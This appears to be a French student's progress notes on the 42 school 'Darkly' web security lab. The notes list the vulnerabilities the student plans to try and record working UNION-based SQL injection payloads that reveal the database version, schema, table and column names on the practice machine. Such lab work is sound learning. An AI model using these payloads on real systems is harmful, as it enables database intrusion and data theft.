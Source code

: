 # darkly
projet de web secu de 42


les faille que je prevois de croiser :
- injection sql sur une recherche 
- injection sql sur login
- injeciton de donner sur l upload dimage
- injection js
- injection php (j ai croiser ca sur internet mais je ne suis pas sur de ocomment ca marche)
- manipulation de cookie

29novembre :
je comprend comment lancer la machine grace a ce lien que de sympathique gens m on donner sur discord 
https://github.com/AdonisEnProvence/Darkly#setup
je me rend compte que les recherche de photos et d user renvois des erreurs sql 
il y a probablement moyen d y injecter des choses
je testes des trucs

30 novembre : 
je test plein de solution dinjeciton sql et une trouver sur se stie touche enfin 
https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/
 ## 0 UNION ALL SELECT NULL,version()-- 
c est top ca renvoi la version qui est : 5.5.64-MariaDB-1ubuntu0.14.04.1
 ## 0 UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata--
me donne les nom de database suivant :
- information_schema
- Member_Brute_Force
- Member_Sql_Injection
- Member_guestbook
- Member_images
- Member_survey

0 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM images.TABLES --

je ne comprend pas les member machin ils ne retourne rien
## 0 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES --
je recupere plein de truc mais je ne sait pas quoi en faire

USER_STATISTICS

 0 UNION ALL SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='USER_STATISTICS'--

## 0 UNION ALL SELECT NULL,concat(column_name) FROM guestbook.COLUMNS --
me donne toute les columns existante


